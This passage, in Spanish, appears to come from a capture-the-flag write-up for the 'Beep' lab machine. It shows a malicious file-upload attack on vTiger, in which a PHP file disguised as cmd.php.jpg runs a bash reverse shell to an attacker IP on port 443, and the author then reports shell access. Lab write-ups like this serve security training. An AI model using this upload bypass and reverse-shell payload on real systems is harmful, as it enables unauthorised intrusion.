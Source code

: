 Podemos aprovechar que la página es construida en `php` lo que nos hace pensar que es posible que interprete este código al ser inyectado de manera maliciosa por lo que vamos a crear el archivo `cmd.php.jpg` ya que solo se permite la subida de archivos con extensión `.jpg`

```bash
* File cmd.php.jpg

<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'");
?>
```
En el cual estamos usando un `One Liner` que nos envia una `bash` al puerto `443`

![VTiger Evil Image Upload](/assets/img/commons/Beep/vtigerimageevil.png)_VTiger Evil Image Upload_

Y en efecto, tenemos acceso a la máquina como el usuario `aesterisk`, podemos comprobar que estamos en la máquina, al hacer un `ifconfig` y nos devuelva la `ip` que estamos atacando
